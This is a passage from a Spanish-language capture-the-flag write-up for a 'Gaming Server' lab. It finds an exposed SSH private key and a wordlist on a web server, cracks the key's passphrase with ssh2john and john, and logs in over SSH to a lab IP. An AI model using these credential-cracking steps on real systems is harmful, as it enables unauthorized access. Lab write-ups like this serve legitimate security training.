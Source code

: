- Revisando en los dominios encontrados las siguientes páginas:

Robots.txt: no se encontró una ruta interesante:

![Untitled](Gaming%20Ser%2071c53/Untitled%202.png)

Secret: encontramos una llave ssh.

![Untitled](Gaming%20Ser%2071c53/Untitled%203.png)

Uploads: encontramos los siguientes archivos, 

![Untitled](Gaming%20Ser%2071c53/Untitled%204.png)

---

- De los archivos “manifesto.txt” y “meme.jpg” no se encontró nada interesante, el archivo “dict.lst” lo podemos utilizar más adelante.

---

## 3. Explotación

## John

- Ingresamos mediante el siguiente comando via SSH:
- Guardamos el archivo “***secretKey***” con el nombre que usted quiera, en mi caso lo nombre “key”

![Untitled](Gaming%20Ser%2071c53/Untitled%205.png)

- Creamos una copia de “key” como “hash” para poder aplicar fuerza bruta:

```bash
ssh2john key > hash
```

- Con john, y el diccionario encontrado “dict.lst” y encontramos la contraseña para conectarnos vía ssh:

```bash
john --wordlist=/home/ocortesl/Descargas/dict.lst hash
```

- Otorgamos permiso a “key”

```bash
chmod 600 key
```

- Conexión vía ssh:

```bash
ssh -i key john@{ip}
```

```bash
ssh -i key john@10.10.53.144
Enter passphrase for key 'key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Apr 12 03:51:52 UTC 2022

  System load:  0.0               Processes:             99
  Usage of /:   41.1% of 9.78GB   Users logged in:       0
  Memory usage: 37%               IP address for eth0:   10.10.53.144
  Swap usage:   0%                IP address for lxdbr0: 10.229.116.1
```